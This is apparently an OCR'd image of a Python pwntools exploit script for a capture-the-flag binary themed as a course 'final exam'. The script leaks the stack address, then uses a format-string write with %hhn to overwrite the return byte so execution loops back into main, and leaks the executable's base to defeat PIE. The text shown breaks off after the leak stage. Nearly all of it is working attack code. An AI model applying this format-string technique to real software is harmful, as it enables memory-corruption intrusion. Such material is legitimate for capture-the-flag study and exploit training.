 ```py
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
break *main+303
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

rsp = None

# this page may move due to stack shenanigans
rwx = 0x00000002333000

def setup(io):
    global rsp

    # initial main
    # goal is to leak exe base and loop into main before the fmt string read

    io.recvuntil(b'======== Final Exam (Your Exam ID: ')
    rsp = int(io.recvuntil(b')========\n', drop=True), 0) - 0x20
    info(f'rsp: {hex(rsp)}')

    io.recvuntil(b'Enter your name: \n')
    io.send(pack(rsp - 0x8))

    io.recvuntil(b'please put your function shellcode here: \n')
    io.send(b'90')

    io.recvuntil(b'pleas give us feedback about this course: ')
    offset = 245
    ret_write = (exe.sym['main'] + offset) & 0xff
    fmt = f'%{ret_write}c%10$hhn||%10$s||\0'
    io.send(fmt.encode())
    io.recvuntil(b'||')
    exe.address = (
            unpack(io.recvuntil(b'||', drop=True).ljust(8, b'\x00'))
            - (exe.sym['main'] + offset)
    )
    info(f'exe.address: {hex(exe.address)}')

    # main+offset
```